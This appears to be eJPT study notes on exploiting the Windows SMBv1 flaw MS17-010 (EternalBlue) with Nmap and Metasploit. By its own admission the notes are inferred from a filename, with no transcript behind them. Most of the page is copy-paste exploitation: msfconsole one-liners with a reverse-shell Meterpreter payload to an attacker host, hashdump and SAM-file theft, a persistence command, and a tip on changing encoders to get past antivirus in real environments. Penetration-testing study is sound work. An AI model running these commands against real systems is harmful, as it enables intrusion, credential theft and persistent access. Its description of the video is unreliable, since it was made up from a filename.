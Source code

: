 # Exploiting Windows MS17-010 (EternalBlue) — eJPT Study Notes

Transcript note: No transcript was provided. The following summary is inferred from the filename and typical eJPT workflow for exploiting MS17-010 (CVE-2017-0144) in a Windows exploitation module. Commands and flags are conservative and lab-safe.

## What the video covers (Introduction / big picture)
- Identifying and exploiting the Microsoft SMBv1 remote code execution vulnerability MS17-010 (EternalBlue).
- Workflow from enumeration to verification to exploitation using Nmap and Metasploit.
- Gaining a Meterpreter session and basic post-exploitation on Windows 7/Server 2008 R2 targets.
- Reliability considerations, target architecture, and common pitfalls.

## Flow (ordered)
1. Discover SMB (TCP 445) and fingerprint the host/OS.
2. Check for MS17-010 vulnerability (Nmap NSE and/or Metasploit scanner).
3. Select appropriate Metasploit exploit (eternalblue or ms17_010_psexec).
4. Configure exploit options (RHOSTS, LHOST, payload, target).
5. Run `check`, then run exploit and obtain a session.
6. Stabilize and verify (sysinfo, getuid, migrate).
7. Basic post-exploitation (hashdump, file system, persistence optional).
8. Document findings and cleanup.

## Tools highlighted
- Nmap (service detection, OS fingerprinting, NSE smb-vuln-ms17-010).
- Metasploit Framework:
  - auxiliary/scanner/smb/smb_ms17_010 (vuln check)
  - exploit/windows/smb/ms17_010_eternalblue (x64 RCE)
  - exploit/windows/smb/ms17_010_psexec (reliable alternative)
  - windows/x64/meterpreter/reverse_tcp payload
- smbclient/smbmap (optional SMB enumeration)
- Basic Windows post-exploitation via Meterpreter

## Typical command walkthrough (detailed, copy-paste friendly)

Set target and attacker IPs for convenience:
```bash
export TARGET=10.10.10.10
export LHOST=10.10.14.5
```

1) Fast port check and SMB fingerprint
```bash
sudo nmap -Pn -p445 -sS -sV -O --reason --version-all $TARGET
sudo nmap -Pn -p139,445 --script smb-os-discovery,smb2-capabilities $TARGET
```

2) Check MS17-010 (try Nmap NSE; if not present, skip to Metasploit scanner)
```bash
# On many Kali images this NSE exists; if not, use Metasploit scanner below
sudo nmap -Pn -p445 --script smb-vuln-ms17-010 $TARGET
```

3) Metasploit scanner to confirm vulnerability
```bash
msfconsole -q
```
Inside msfconsole:
```text
search ms17_010
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS $TARGET
set THREADS 10
run
```
Look for “Host is likely VULNERABLE to MS17-010” and absence of “Not vulnerable”.

4) Exploit option A — EternalBlue (x64 targets: Windows 7/Server 2008 R2)
```text
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS $TARGET
set RPORT 445
set LHOST $LHOST
set PAYLOAD windows/x64/meterpreter/reverse_tcp
# Optional safety checks
set VERIFY_ARCH true
set VERIFY_TARGET true
check
run
```

5) Exploit option B — ms17_010_psexec (often reliable, can work where eternalblue is finicky)
```text
use exploit/windows/smb/ms17_010_psexec
set RHOSTS $TARGET
set RPORT 445
set LHOST $LHOST
set PAYLOAD windows/x64/meterpreter/reverse_tcp
check
run
```

6) After getting a session (Meterpreter)
```text
sessions
sessions -i 1
sysinfo
getuid
# If not SYSTEM, try getsystem:
getsystem
# Migrate into a stable 64-bit process (e.g., services.exe/spoolsv.exe):
ps
migrate <pid_of_64bit_system_process>
```

7) Quick post-exploitation examples
```text
# Enumerate users and privileges
getprivs
hashdump
# File system
pwd
ls
download C:\\Windows\\System32\\config\\SAM
# Persistence (optional; only in authorized labs)
run persistence -X -i 5 -p 4444 -r $LHOST
```

8) Cleanup (if you set persistence or dropped files)
```text
# Remove persistence job if created, or revert snapshot in lab
```

Optional: SMB enumeration without creds
```bash
smbclient -L //$TARGET/ -N
smbmap -H $TARGET
```

## Practical tips
- Target architecture matters: exploit/windows/smb/ms17_010_eternalblue is x64-only. Use a 64-bit payload. If you only see x86 processes, migrate to a 64-bit one or use ms17_010_psexec.
- Reliability: EternalBlue can crash unpatched boxes (BSOD). Prefer running `check`, enable VERIFY_* options, and consider ms17_010_psexec for better stability.
- OS scope: Most reliable on Windows 7 SP1 and Windows Server 2008 R2 (pre-March 2017 patches). Windows 10/Server 2016 typically patched; don’t expect success.
- Firewalls/AV: Lab targets usually permissive. In real environments, AV may block payloads; use staged payloads and different encoders if needed.
- Common errors:
  - ECONNRESET/timeout: Check host is up, port 445 open, no IPS, correct RHOSTS.
  - “Unable to find a vulnerable host” after check: The target may be patched or not SMBv1.
  - Session dies immediately: Try a different payload or migrate quickly after session spawn.
- Enumeration first: Confirm 445 is open, identify OS and SMB dialect; look for Windows 7/2008 R2 signatures before attempting exploit.
- Use run -j to background long runs and sessions to manage multiple targets.
- Always have authorization; document exact commands, timestamps, and outcomes.

## Minimal cheat sheet (one-screen flow)
```bash
# 1) Discover SMB
sudo nmap -Pn -p445 -sV -O $TARGET

# 2) Vuln check (pick one)
sudo nmap -Pn -p445 --script smb-vuln-ms17-010 $TARGET
# or
msfconsole -q -x "use auxiliary/scanner/smb/smb_ms17_010; set RHOSTS $TARGET; run; exit"

# 3) Exploit (EternalBlue x64)
msfconsole -q -x "use exploit/windows/smb/ms17_010_eternalblue; set RHOSTS $TARGET; set LHOST $LHOST; set PAYLOAD windows/x64/meterpreter/reverse_tcp; run"

# Alt exploit (often reliable)
msfconsole -q -x "use exploit/windows/smb/ms17_010_psexec; set RHOSTS $TARGET; set LHOST $LHOST; set PAYLOAD windows/x64/meterpreter/reverse_tcp; run"
```
Post-exploitation (Meterpreter):
```text
sessions -i 1
sysinfo
getuid
ps
migrate <pid>
hashdump
```

## Summary
- MS17-010 (EternalBlue, CVE-2017-0144) is an SMBv1 RCE affecting unpatched Windows 7/Server 2008 R2 primarily.
- Workflow: verify 445, confirm vulnerability (Nmap NSE or Metasploit scanner), exploit with ms17_010_eternalblue (x64) or ms17_010_psexec, then stabilize and enumerate.
- Key gotchas: target must be unpatched, x64 for eternalblue, potential for BSOD, and the importance of quick migration and verification.